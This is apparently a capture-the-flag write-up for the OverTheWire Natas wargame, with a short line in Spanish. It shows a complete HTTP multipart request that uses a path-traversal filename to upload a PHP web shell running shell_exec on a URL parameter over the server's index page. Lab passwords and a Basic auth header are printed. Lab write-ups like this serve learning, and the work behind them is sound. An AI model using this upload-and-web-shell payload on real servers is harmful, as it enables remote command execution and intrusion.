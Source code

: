 shoogeiGa2yee3de6Aex8uaXeech5eey

# Natas33

~~~
POST /index.php HTTP/1.1
Host: natas33.natas.labs.overthewire.org
Content-Length: 475
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMzpzaG9vZ2VpR2EyeWVlM2RlNkFleDh1YVhlZWNoNWVleQ==
Origin: http://natas33.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=—-WebKitFormBoundaryrDg9m1cnIOTLcDtc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://natas33.natas.labs.overthewire.org/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja;q=0.6
Connection: close

——WebKitFormBoundaryrDg9m1cnIOTLcDtc
Content-Disposition: form-data; name=”MAX_FILE_SIZE”

4096
——WebKitFormBoundaryrDg9m1cnIOTLcDtc
Content-Disposition: form-data; name=”filename”

../../var/www/natas/natas33-new/index.php
——WebKitFormBoundaryrDg9m1cnIOTLcDtc
Content-Disposition: form-data; name=”uploadedfile”; filename=”abcd”
Content-Type: application/octet-stream

<?php echo shell_exec($_GET[‘c’]); ?>
——WebKitFormBoundaryrDg9m1cnIOTLcDtc–
~~~
Utilice el webshell cargado para obtener la contraseña:
shu5ouSu6eicielahhae0mohd4ui5uig